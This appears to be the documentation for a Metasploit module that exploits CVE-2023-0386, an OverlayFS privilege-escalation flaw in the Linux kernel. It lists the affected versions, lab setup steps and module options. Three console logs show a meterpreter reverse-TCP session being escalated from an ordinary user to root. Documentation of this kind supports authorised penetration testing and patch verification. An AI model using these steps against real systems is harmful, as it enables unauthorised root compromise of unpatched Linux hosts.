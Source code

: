 ## Vulnerable Application

This exploit targets the Linux kernel bug in OverlayFS.

A flaw was found in the Linux kernel, where unauthorized access to the execution of the setuid file with capabilities
was found in the Linux kernel’s OverlayFS subsystem in how a user copies a capable file from a nosuid mount into another mount.
This uid mapping bug allows a local user to escalate their privileges on the system.

The vulnerability affects:

    * Linux kernel from (including) 5.11 up to (excluding) 5.15.91 and from (including) 5.16 Up to (excluding) 6.1.9

This module was successfully tested on:

    * Ubuntu kernel version 5.13.0-1021-oem on x64/amd64

### Install

1. Install Ubuntu version 22.04 LTS
2. (Optional) Change kernel version
```
sudo apt update
sudo apt install -y linux-image-5.13.0-1021-oem linux-headers-5.13.0-1021-oem
reboot
```
3. Install the required libraries
```
sudo apt update
sudo apt install -y gcc cmake fuse libfuse-dev libcap-dev
```

## Verification Steps

1. Make an Ubuntu
2. Create a meterpreter or shell payload and upload it to the Ubuntu target
3. Set up a handler for the payload
4. Launch the payload as a regular user on the Ubuntu target and connect the handler
5. Do: `use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc`
6. Do: `run session=<session> lhost=<lhost>`
7. You should get a root

## Options

### COMPILE (required)

[Auto|True|False] This selects the binary to use.  True will upload the source code and perform
compilation on target, False will upload a precompiled binary.  AUTO will favor compiling on target
but will fall back to the precompiled option if a compiler cannot be found.
The default value is `Auto`

### TIMEOUT (required)

This is the amount of time (in seconds) that the module will wait for the payload to be
executed. Defaults to 60 seconds.

### WritableDir (required)
This indicates the location where you would like the payload and exploit binary stored, as well
as serving as a location to store the various files and directories created by the exploit itself.
The default value is `/tmp`

## Scenarios
### Ubuntu 5.13.0-1021-oem x64/amd64 COMPILE=Auto
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:54776) at 2024-09-05 22:48:42 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=Auto

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.13.0
[*] Writing '/tmp/.a4HSc5ks' (334 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 192.168.56.102
[+] Deleted /tmp/.a4HSc5ks
[+] Deleted /tmp/.Smx0d11hH
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:54778) at 2024-09-05 22:49:28 +0900

meterpreter > getuid
Server username: root
```

### Ubuntu 5.13.0-1021-oem x64/amd64 COMPILE=True
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:54710) at 2024-09-05 22:45:40 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=True

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.13.0
[*] Writing '/tmp/.uKkt1jtoJ' (334 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 192.168.56.102
[+] Deleted /tmp/.uKkt1jtoJ
[+] Deleted /tmp/.oaqii9pj
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:54712) at 2024-09-05 22:46:19 +0900

meterpreter > getuid
Server username: root
```

### Ubuntu 5.13.0-1021-oem x64/amd64 COMPILE=False
```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > run lhost=192.168.56.1 lport=4444 payload=linux/x64/meterpreter/reverse_tcp

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Sending stage (3045380 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.102:54616) at 2024-09-05 22:36:45 +0900

meterpreter > getuid
Server username: ubu
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/linux/local/cve_2023_0386_overlayfs_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/cve_2023_0386_overlayfs_priv_esc) > run session=1 lhost=192.168.56.1 COMPILE=False

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Linux kernel version found: 5.13.0
[*] Writing '/tmp/.9tZar0/cve-2023-0386' (2215928 bytes) ...
[*] Writing '/tmp/.Z37h3bkJpw' (334 bytes) ...
[*] Launching exploit...
[*] Sending stage (3045380 bytes) to 192.168.56.102
[+] Deleted /tmp/.Z37h3bkJpw
[+] Deleted /tmp/.9tZar0
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.102:54618) at 2024-09-05 22:37:31 +0900

meterpreter > getuid
Server username: root
```
